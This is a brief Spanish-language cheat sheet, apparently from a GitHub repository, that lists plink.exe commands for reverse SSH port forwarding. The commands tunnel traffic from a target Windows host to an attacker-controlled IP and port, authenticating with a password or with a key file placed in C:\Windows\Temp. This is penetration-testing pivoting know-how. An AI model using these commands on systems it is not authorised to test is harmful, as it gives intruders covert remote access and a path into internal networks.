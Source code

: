 # Plink Cheat Sheet

#### Autenticarse con un Password
```
echo 'y' | .\plink.exe -ssh -l <USERNAME> -pw <PASSWORD> -batch -N -R 127.0.0.1:<ATTACK-PORT>:127.0.0.1:<TARGET-IP> <ATTACK-IP>
```

#### Usando la llave privada
```
echo 'y' | .\plink.exe -ssh -l <USERNAME> -i C:\Windows\Temp\key.ppk -batch -N -R 127.0.0.1:<ATTACK-PORT>:127.0.0.1:<TARGET-IP> <ATTACK-IP>
```

##### Generar la lleve
```
ssh-keygen
puttygen <PRIVATE-KEY> -o key.ppk
```

#### Reverse Connection
```
cmd.exe /c echo y | .\plink.exe -R <ATTACK-PORT>:<TARGET-IP>:<TARGET-PORT> <USERNAME>@<ATTACK-IP> -i key.ppk -N
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)